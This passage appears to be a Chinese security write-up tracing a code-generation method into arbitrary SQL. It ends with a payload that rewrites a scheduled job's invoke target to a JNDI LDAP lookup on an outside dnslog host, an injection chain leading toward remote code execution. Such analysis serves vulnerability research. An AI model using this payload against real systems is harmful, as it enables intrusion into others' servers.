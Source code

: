 ![image-20240306221326697](assets/1710465660-2aa4e0726f43ee73f6995c3e597c2175.png)

这块直接调用了 `genTableService.createTable()`, 咱直接跟进去看看

![image-20240306221433954](assets/1710465660-46614456da34c577be50810e1ef1c16e.png)

Mapper 语句：

![image-20240306221510785](assets/1710465660-cd353bcff8ef9ae296627441fcee290a.png)

接下来创建一个定时任务调用这个类，直接从 sys\_job 表中把某一个定时任务调用目标字符串 (invoke\_target 字段) 改了

先谈个 dnslog 试试

```php
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'javax.naming.InitialContext.lookup('ldap://xcrlginufj.dgrh3.cn')' WHERE job_id = 1;')
```
